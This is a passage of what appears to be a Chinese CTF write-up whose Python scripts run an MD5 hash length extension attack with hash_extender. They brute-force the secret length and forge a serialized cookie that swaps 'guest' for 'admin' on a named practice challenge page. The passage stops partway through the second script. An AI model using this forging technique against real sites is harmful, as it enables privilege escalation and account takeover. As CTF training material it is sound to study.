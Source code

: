 <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> xrange(<span class="hljs-number">1000</span>):
    <span class="hljs-keyword">print</span> i
    <span class="hljs-comment">#secret len = ???</span>
    find_hash = <span class="hljs-string">"../hash_extender/hash_extender -d ';\"tseug\":5:s' -s 3a4727d57463f122833d9e732f94e4e0 -f md5  -a ';\"nimda\":5:s' --out-data-format=html -l "</span> + str(i) + <span class="hljs-string">" --quiet"</span>
    <span class="hljs-comment">#print find_hash</span>
    calc_res = os.popen(find_hash).readlines()
    <span class="hljs-keyword">print</span> calc_res
    hash_value = calc_res[<span class="hljs-number">0</span>][:<span class="hljs-number">32</span>]
    attack_padding = calc_res[<span class="hljs-number">0</span>][<span class="hljs-number">32</span>:]
    attack_padding = urllib.quote(urllib.unquote(attack_padding)[::-<span class="hljs-number">1</span>])
    ret = gao(attack_padding, hash_value)
    <span class="hljs-keyword">if</span> <span class="hljs-string">"Welcome"</span> <span class="hljs-keyword">in</span> ret:
        <span class="hljs-keyword">print</span> ret
        <span class="hljs-keyword">break</span>


</code></pre>
<h3 id="方法二-利用上述脚本">方法二 利用上述脚本</h3>
<p>只需简单的更改第二个脚本就好</p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-comment">#!/usr/bin/env python</span>
<span class="hljs-comment"># -*- coding: utf-8 -*-</span>
<span class="hljs-comment"># @Author：DshtAnger</span>
<span class="hljs-keyword">import</span> test1
<span class="hljs-keyword">import</span> hashlib
<span class="hljs-keyword">import</span> urllib
<span class="hljs-keyword">import</span> binascii
<span class="hljs-keyword">import</span> re
<span class="hljs-keyword">from</span> Crypto.Util.number <span class="hljs-keyword">import</span> getPrime, long_to_bytes, bytes_to_long
<span class="hljs-comment">#reference:</span>
<span class="hljs-comment">#   http://www.freebuf.com/articles/web/69264.html</span>
<span class="hljs-comment">#problem link:</span>
<span class="hljs-comment">#   http://ctf4.shiyanbar.com/web/kzhan.php</span>
samplehash=<span class="hljs-string">"3a4727d57463f122833d9e732f94e4e0"</span>

<span class="hljs-string">'''
res = re.findall('.{8}',samplehash)
print res 

s = '03194d72'
print c
s1 = ""
print s1.join([s[i-2]+s[i-1] for i in xrange(len(s),0,-2)])
'''</span>
s =[]
res = re.findall(<span class="hljs-string">'.{8}'</span>,samplehash)
<span class="hljs-keyword">print</span> res 
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> res:
    ss = <span class="hljs-string">""</span>
